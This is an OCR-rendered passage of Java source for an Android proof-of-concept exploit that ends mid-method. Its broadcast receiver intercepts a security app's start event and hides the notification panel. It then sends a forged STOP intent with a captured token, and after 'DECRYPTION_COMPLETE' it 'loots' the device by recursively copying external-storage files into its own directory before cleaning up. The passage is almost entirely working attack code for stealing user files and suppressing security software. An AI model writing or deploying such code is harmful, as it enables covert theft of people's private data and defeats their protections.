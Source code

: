 ```java
        }  
    }  
    // receivers  
    private void register() {  
        rx = new BroadcastReceiver() {  
            @Override  
            public void onReceive(Context c, Intent in) {  
                String a = in.getAction();  
                if (ACT_STARTED.equals(a)) {  
                    Log.i("PoC", "SECURITY_STARTED → sending STOP");  
                    hideNotificationPanel(); // hide  
  
                    Intent stop = new Intent(ACT_STOP)  
                            .setPackage(V_PKG)  
                            .putExtra(EXTRA_TOKEN, token);  
                    sendBroadcast(stop);  
                } else if (ACT_DONE.equals(a)) {  
                    Log.i("PoC", "DECRYPTION_COMPLETE, looting...");  
                    hideNotificationPanel(); // hide  
  
                    loot();  
                    cleanup();  
                }  
            }        };  
  
        IntentFilter f = new IntentFilter();  
        f.addAction(ACT_STARTED);  
        f.addAction(ACT_DONE);  
  
        if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.TIRAMISU) {  
            registerReceiver(rx, f, Context.RECEIVER_EXPORTED);  
        } else {  
            registerReceiver(rx, f, Context.RECEIVER_EXPORTED);  
        }  
    }  
    // steal files  
    private void loot() {  
        File sd = Environment.getExternalStorageDirectory();  
        File base = getExternalFilesDir(null);  
        File lootDir = new File(base, "loot");  
        lootDir.mkdirs();  
  
        Log.i("PoC", "traversing: " + sd.getAbsolutePath());  
        int n = copyRecursive(sd, lootDir, sd.getAbsolutePath());  
        Log.i("PoC", "copied " + n + " files into " + lootDir.getAbsolutePath());  
  
        previewTxts(lootDir);  
    }  
  
    private int copyRecursive(File start, File dstRoot, String rootPath) {  
        int count = 0;  
        Deque<File> stack = new ArrayDeque<>();  
        stack.push(start);  
  
        while (!stack.isEmpty()) {  
            File cur = stack.pop();  
            try {  
                if (cur.isDirectory()) {  
                    File[] kids = cur.listFiles();  
                    if (kids != null && kids.length < 1000) {  
                        Collections.addAll(stack, kids);  
                    }  
                } else if (isInteresting(cur)) {  
```